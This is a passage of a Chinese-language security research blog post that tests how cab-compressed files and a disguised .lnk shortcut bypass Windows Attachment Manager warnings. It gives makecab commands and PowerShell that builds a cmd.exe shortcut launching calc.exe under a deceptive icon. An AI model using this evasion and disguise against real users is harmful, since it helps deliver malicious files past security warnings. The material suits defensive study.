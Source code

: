 
使用makecab将putty.exe压缩成putty.cab，压缩类型选择lzx，命令如下：

`makecab /d compressiontype=lzx putty.exe putty.cab`

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-5-10/3-4.png)

上传至HTTP服务器

测试系统通过Chrome下载

解压缩，保存文件，打开，弹框

将文件拖至任一路径，打开，不弹框

完整测试过程如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-5-10/2.gif)

gif在线地址：

https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-5-10/2.gif

使用Procmon监控两种操作，区别如下图，此处需要继续研究，做更多的测试

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-5-10/5-1.png)

**注：**

Win10 Build 14393(1607)及之前版本均存在这个问题,Win10 Build 15063(1703)已经修复该问题

**结论3：**

使用cab压缩文件，接着拖动文件保存，能够绕过Windows Attachment Manager


**5、尝试.lnk+cab**

**注：**

该方法来自rvrsh3ll@424f424f的文章，但我在测试的时候发现了另外一个有趣的问题


使用makecab将test.lnk压缩成test.cab，压缩类型选择lzx，命令如下：

`makecab /d compressiontype=lzx test.lnk test.cab`

**注：**

cab文件能够压缩lnk文件本身，为了增加迷惑性，可以使用以下测试代码：

test.txt中写入如下内容：

`/c start calc.exe`

powershell代码：

```
$file = Get-Content "c:\test\test.txt"
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("c:\test\test.lnk")
$Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,3"
$Shortcut.Arguments = $file
$Shortcut.Save()
```
